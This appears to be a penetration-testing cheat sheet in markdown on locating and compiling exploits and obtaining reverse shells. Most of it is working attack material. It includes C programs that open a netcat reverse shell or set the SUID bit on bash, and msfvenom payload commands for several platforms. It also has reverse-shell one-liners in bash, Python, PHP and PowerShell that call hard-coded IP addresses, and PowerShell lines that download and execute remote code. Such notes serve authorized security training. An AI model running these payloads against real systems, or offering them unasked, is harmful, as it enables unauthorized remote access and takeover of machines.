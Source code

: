 # 💣 Exploitation

## Locating Public Exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

### Compiling Exploits

Windows: reverse shell using `nc.exe`

```c
#include <stdlib.h>

int main(){
    system("C:\\programdata\\nc.exe -e cmd.exe <ip> <port>");
    return 0;
}
```

Linux: add SUID bit to `/bin/bash`

```c
#include <stdlib.h>

int main() {
    system("chmod +s /bin/bash");
    return 0;
}
```

=== "Windows"

    ```shell
    sudo apt install mingw-w64
    # 64-bit and 32-bit C++ files
    x86_64-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
    i686-w64-mingw32-g++ myprogram.cpp -o myprogram.exe

    # 64-bit and 32-bit C files
    x86_64-w64-mingw32-gcc myprogram.c -o myprogram.exe
    i686-w64-mingw32-gcc myprogram.c -o myprogram.exe
    ```

=== "Linux"

    ```shell
    sudo apt install gcc g++ make
    gcc myprogram.c -o myprogram
    g++ myprogram.cpp -o myprogram
    ```

## Reverse Shells

!!! tip
    Beware of reflected ports!

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
# download and execute a file from memory
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Add tools to Windows restricted shell

```shell
set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0\;
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```

### Penelope

If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can help.

```shell
python penelope.py 80
```

### Powercat

> <https://github.com/besimorhino/powercat>

```shell
# load the function from .ps1 file:
.\powercat.ps1
# load the function from a URL and connect back to the listener:
IEX (New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/powercat.ps1'); powercat -c <ip> -p <port> -e cmd
```

### Check Connectivity

```shell
# on Kali
sudo tcpdump -i tun0 icmp

# from the target
ping -c 1 <kali_ip>
```
